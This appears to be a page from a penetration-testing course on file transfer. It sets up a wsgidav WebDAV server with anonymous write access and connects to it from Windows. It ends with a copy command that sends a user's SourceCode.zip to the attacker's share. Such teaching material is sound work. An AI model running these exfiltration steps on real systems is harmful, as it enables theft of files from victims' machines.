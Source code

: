 # wsgidav

| Download                                                             |
| -------------------------------------------------------------------- |
| [https://github.com/mar10/wsgidav](https://github.com/mar10/wsgidav) |

A generic and extendable [WebDAV](http://www.ietf.org/rfc/rfc4918.txt) server based on [WSGI](http://www.python.org/dev/peps/pep-3333/).

## WebDav Server Setup

To set up a WebDav server, install two Python modules: **wsgidav** and **cheroot**. After installing them, run the wsgidav application in the target directory.

### Install WebDav Python Modules

```bash
clue@machine[/]$ sudo pip3 install wsgidav cheroot

[sudo] password for plaintext: 
Collecting wsgidav
  Downloading WsgiDAV-4.0.1-py3-none-any.whl (171 kB)
     |████████████████████████████████| 171 kB 1.4 MB/s
     ...SNIP...
```

### Using the WebDav Python Module

```bash
clue@htb[/]$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 

[sudo] password for plaintext: 
Running without configuration file.
10:02:53.949 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
10:02:53.950 - INFO    : WsgiDAV/4.0.1 Python/3.9.2 Linux-5.15.0-15parrot1-amd64-x86_64-with-glibc2.31
10:02:53.950 - INFO    : Lock manager:      LockManager(LockStorageDict)
10:02:53.950 - INFO    : Property manager:  None
10:02:53.950 - INFO    : Domain controller: SimpleDomainController()
10:02:53.950 - INFO    : Registered DAV providers by route:
10:02:53.950 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/usr/local/lib/python3.9/dist-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
10:02:53.950 - INFO    :   - '/': FilesystemProvider for path '/tmp' (Read-Write) (anonymous)
10:02:53.950 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
10:02:53.950 - WARNING : Share '/' will allow anonymous write access.
10:02:53.950 - WARNING : Share '/:dir_browser' will allow anonymous read access.
10:02:54.194 - INFO    : Running WsgiDAV/4.0.1 Cheroot/8.6.0 Python 3.9.2
10:02:54.194 - INFO    : Serving on http://0.0.0.0:80 ...
```

### Connecting to the Webdav Share

Now we can attempt to connect to the share using the **DavWWWRoot** directory.

Windows file transfer example:

```powershell
C:\htb> dir \\192.168.49.128\DavWWWRoot

 Volume in drive \\192.168.49.128\DavWWWRoot has no label.
 Volume Serial Number is 0000-0000

 Directory of \\192.168.49.128\DavWWWRoot

05/18/2022  10:05 AM    <DIR>          .
05/18/2022  10:05 AM    <DIR>          ..
05/18/2022  10:05 AM    <DIR>          sharefolder
05/18/2022  10:05 AM                13 filetest.txt
               1 File(s)             13 bytes
               3 Dir(s)  43,443,318,784 bytes free
```

| Note                                                                                                                                                                                                                                                           |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server. |
| You can avoid using this keyword if you specify a folder that exists on your server when connecting to the server. For example: \192.168.49.128\sharefolder                                                                                                    |

## SMB File Transfer

```powershell
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

| Note                                                                                                                          |
| ----------------------------------------------------------------------------------------------------------------------------- |
| If there are no SMB (TCP/445) restrictions, you can use impacket-smbserver the same way we set it up for download operations. |
